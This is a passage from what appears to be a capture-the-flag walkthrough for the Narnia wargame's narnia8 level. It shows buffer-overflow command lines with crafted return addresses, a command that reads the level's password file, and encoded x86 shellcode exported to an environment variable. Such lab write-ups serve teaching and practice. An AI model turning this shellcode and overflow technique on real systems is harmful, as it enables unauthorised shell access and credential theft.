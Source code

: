 ry exploiting the buffer overflow with specific addresses:
```bash
./narnia8 $(echo -e "AAAAAAAAAAAAAAAAAAAA\x49\xd5\xff\xffAAAA\x66\xd5\xff\xff")
```
<img src="./img/Screenshot 2024-10-13 145544.png"></img>
Try another address combination:
```bash
./narnia8 $(echo -e "AAAAAAAAAAAAAAAAAAAA\x49\xd5\xff\xffAAAA\x90\xd5\xff\xff")
```
You should get a shell after executing the correct exploit. Once you have access to the shell, retrieve the password for the next level:
```bash
cat /etc/narnia_pass/narnia8
```
Explanation:

The shellcode needs to be placed carefully in memory, with specific adjustments based on the offset and address calculations. By understanding the memory locations (like `0xffffd555`), the buffer is manipulated using the logic of subtracting values (e.g., `0x55 - 12 = 0x49`), ensuring we control the return address properly. The shellcode itself is a series of `NOP` instructions (`\x90`) followed by executable code that grants shell access.

Export the shellcode to an environment variable:
```bash
export SHELLCODE=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81'
```
<img src="./img/Screenshot 2024-10-13 145210.png"></img>